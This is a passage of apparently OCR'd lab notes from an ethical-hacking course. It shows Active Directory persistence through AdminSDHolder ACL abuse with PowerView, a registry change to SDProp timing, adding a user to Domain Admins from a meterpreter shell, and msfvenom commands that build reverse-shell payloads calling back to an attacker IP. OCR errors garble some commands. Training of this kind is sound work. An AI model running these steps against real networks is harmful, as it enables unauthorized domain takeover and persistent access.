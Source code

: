 	PS > cd C:\Users\Administrator\Downloads\PowerView
	PS > Import-Module ./powerview.psm1
	PS > Add_ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName Martin -Verbose -Rights All
	PS > Get-ObjectAcl -SamAccountName "Martin" -ResolveGUIDs	# Check user Martin now has GenericALL active directory rights

Normally the changes in ACL will propagate automatically after 60 minutes, we can enter the following command to reduce the time interval of SDProp to 3 minutes:

	PS > REG ADD HKML\SYSTEM\SYSTEM\CyrrentControlSet\Services\NTDS\Parameters /V AdminSDProtectFrequency /T REG_DWORD /F /D 300
Note: Microsoft doesn’t recommend the modification of this setting, as this might cause performance issues in relation to LSASS process across the domain.


Check result on target machine: open Server Manager window.
Tools -> Active Directory Users and Computers
Active Directory Users and Computers / View -> Advanced Features
In nodes CEH.com -> System nodes -> right click on AdminSDHolder folder -> Properties
In AdminSDHolder Properties window -> Security: Martin has been added as a member.


On meterpreter shell:

	PS > net group “Domain Admins” Martin /add /domain

Check on target machine: Active Directory Users and Computers -> Users -> right-click on Martin J -> properties
Martin J. Properties -> Member Of : We can see that the Martin user is successfully added to the Domain Admins group.


Verify if the domain controller is now accessible to the user Martin and domain persistence has been established:

	Signout / signin with CEH\Martin and 'apple' password

Open a powershell window:

	PS > dir \\10.10.1.22\C$
Domain Controller is now accessible to Martin and thus domain persistence has been established.

			#

### Privilege Escalation and Maintain Persistence using WMI

WMI (Windows Management Instrumentation) event subscription can be used to install event filters, providers, and bindings that execute code when a defined event occurs. It enables system administrators to perform tasks locally and remotely.

Here, we will exploit WMI event subscription to gain persistent access to the target system.

Note: In this task we will create two payloads, one to gain access to the system and another for WMI event subscription.


	msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Desktop/Payload.exe
	msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Desktop/wmi.exe
